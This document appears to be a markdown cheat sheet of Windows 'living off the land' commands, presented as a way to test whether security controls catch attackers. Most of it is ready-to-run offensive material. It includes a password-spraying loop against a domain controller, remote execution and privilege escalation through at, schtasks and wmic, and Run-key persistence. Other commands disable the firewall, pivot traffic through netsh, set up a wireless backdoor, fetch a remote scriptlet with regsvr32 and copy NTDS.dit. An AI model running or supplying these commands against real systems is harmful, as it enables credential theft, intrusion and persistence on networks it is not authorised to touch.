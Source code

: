 # Native - Living off the land

Living off the land is using native operating system utilities to bypass controls in place. At most organizations, this will be AppWhitelisting, AV, endpoint detection software and so on. From the endpoint to the network, you should see some type of activity occur. If you have deep packet inspection, and a sct file is downloaded with powershell, did your network device detect or prevent this? Remember, this is to determine if your current controls are properly working as they were described to you.

## One Liners


## net.exe

### Password Spraying

http://pwnwiki.io/#!privesc/windows/index.md#Password_Spraying

    net user /domain > DomainUsers.txt
    echo "Password1" >> pass.txt
    echo "1q2w3e4r" >> pass.txt

For loop:

    @FOR /F %n in (DomainUsers.txt) DO @FOR /F %p in (pass.txt) DO @net use \\COMPANYDC1\IPC$ /user:COMPANY\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete \\COMPANYDC1\IPC$ > NUL

## at.exe

Note: deprecated in Windows 8+

### Privileged Escalation

This command can be used locally to escalate privilege to SYSTEM or be used across a network to execute commands on another system.

http://pwnwiki.io/#!privesc/windows/index.md

Input:

    at 13:20 /interactive cmd

Example:

    net use \\[computername|IP] /user:DOMAIN\username password
    net time \\[computername|IP]
    at \\[computername|IP] 13:20 c:\temp\evil.bat

## schtask.exe

### Launch Interactive cmd.exe

Input:

    SCHTASKS /Create /SC ONCE /TN spawn /TR C:\windows\system32\cmd.exe /ST 20:10


## reg.exe

Input:

    code here

Output:

    code here

Examples:

    reg add hkcu\software\microsoft\windows\currentversion\run /v netshare /f /d %temp%\notilv.exe /t REG_EXPAND_SZ

    reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v ausMfTQVsuC /t REG_EXPAND_SZ /d "\"C:\Users\IEUser\AppData\Roaming\Oracle\bin\javaw.exe\" -jar \"C:\Users\IEUser\wBJLxnECLJF\FysHVwDWznz.ICgcjG\"" /f

## Netsh.exe

http://pwnwiki.io/#!pivoting/windows/windows_cmd_network.md

### Firewall Control

Input:

    netsh firewall set opmode [disable|enable]

### Netsh.exe Pivoting

Input:

    netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=8000 connectaddress=192.168.1.1

Can also support v4tov6, v6tov6, and v6tov4

### Netsh.exe Sniffing

Input:

    netsh trace start capture=yes overwrite=no tracefile=<FilePath.etl>

to stop:

    netsh trace stop

### Netsh.exe Wireless backdoor

Input:

    netsh wlan set hostednetwork mode=[allow\|disallow]
    netsh wlan set hostednetwork ssid=<ssid> key=<passphrase> keyUsage=persistent\|temporary
    netsh wlan [start|stop] hostednetwork

Enables or disables hostednetwork service.
Complete hosted network setup for creating a wireless backdoor.
Starts or stops a wireless backdoor. See below to set it up.

## Regsvr32.exe

Input:

    code here

Output:

    code here

    regsvr32.exe /s /n /u /i:https://<website>/data scrobj.dll

## waitfor.exe

Input:

    code here

Output:

    code here

## wmic.exe

Provided by: https://www.fireeye.com/content/dam/fireeye-www/services/pdfs/sans-dfir-2015.pdf


### Reconnaissance

Input:

    wmic useraccount get /ALL

Input:

    wmic process get caption,executablepath,commandline

Input:

    wmic qfe get description,installedOn /format:csv

Input:

    wmic /node:”192.168.0.1” service where (caption like “%sql server (%”)

Input:

    get-wmiobject –class “win32_share” –namespace “root\CIMV2” –computer “targetname”

### Lateral Movement

Input:

    wmic /node:REMOTECOMPUTERNAME process call create “COMMAND AND ARGUMENTS"

Input:

    wmic /NODE: “192.168.0.1” process call create “evil.exe”

### Privileged Escalation

Input:

    wmic /node:REMOTECOMPUTERNAME PROCESS call create “at 9:00PM c:\GoogleUpdate.exe ^> c:\notGoogleUpdateResults.txt"

Input:

    wmic /node:REMOTECOMPUTERNAME PROCESS call create “cmd /c vssadmin create shadow /for=C:\Windows\NTDS\NTDS.dit > c:\not_the_NTDS.dit“

## bitsadmin.exe

Input:

    code here

Output:

    code here

## Installutil.exe

Download the two binaries:

Input for pshell.dll:

    C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /logtoconsole=false /U pshell.dll

Input for rwxhunter.exe:

    C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /U rwxhunter.exe
